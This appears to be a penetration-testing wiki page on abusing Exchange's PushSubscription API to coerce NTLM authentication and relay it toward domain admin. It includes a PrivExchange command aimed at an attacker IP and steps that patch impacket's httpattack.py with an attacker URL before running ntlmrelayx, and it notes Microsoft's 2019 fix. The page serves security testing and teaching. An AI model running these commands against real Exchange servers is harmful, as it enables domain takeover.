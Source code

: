 # PushSubscription abuse

## Theory

"PushSubscription" is an API on Exchange Web Services that allows to subscribe to push notifications. Attackers abuse it to make Exchange servers authenticate to a target of their choosing. The coerced authentication is made over HTTP, which is particularly powerful when doing [NTLM relay](../ntlm/relay.md) ([because of the Session Signing and MIC mitigations](../ntlm/relay.md#mic-message-integrity-code)). As Exchange servers usually have high privileges in a domain (i.e. `WriteDacl`, see [Abusing ACLs](../dacl/)), the forced authentication can then be relayed and abused to obtain domain admin privileges (see [NTLM Relay](../ntlm/relay.md) and [Kerberos Unconstrained Delegations](../kerberos/delegations/#unconstrained-delegations-kud)).

## Practice

[PrivExchange](https://github.com/dirkjanm/privexchange/) (Python) is a tool able to log in on Exchange Web Services and call that API.

```bash
privexchange.py -d $DOMAIN -u '$DOMAIN_USER' -p '$PASSWORD' -ah $ATTACKER_IP $EXCHANGE_SERVER_TARGET
```

> [!TIP]
> In the situation where the tester doesn't have any credentials, it is still possible to [relay an authentication](../ntlm/relay.md) to make the API call.
> 
> The modified [httpattack.py](https://github.com/dirkjanm/PrivExchange/blob/master/httpattack.py) can be used with ntlmrelayx.py to perform this attack. The attacker host needs to be modified in the script since it is hard-coded.
> 
> ```bash
> cd /PATH/TO/impacket/impacket/examples/ntlmrelayx/attacks/httpattack.py
> mv httpattack.py httpattack.py.old
> wget https://raw.githubusercontent.com/dirkjanm/PrivExchange/master/httpattack.py
> sed -i 's/attacker_url = .*$/attacker_url = "$ATTACKER_URL"/' httpattack.py
> cd /PATH/TO/impacket
> pip3 install .
> ntlmrelayx.py -t https://exchange.server.EWS/Exchange.asmx
> ```

> [!NOTE]
> On February 12th 2019, Microsoft released updates for Exchange which resolved
> 
> * the coerced authentication issue
> * the fact that Exchange servers had overkill permissions leading attacker to a full domain compromission.

## Resources

[https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
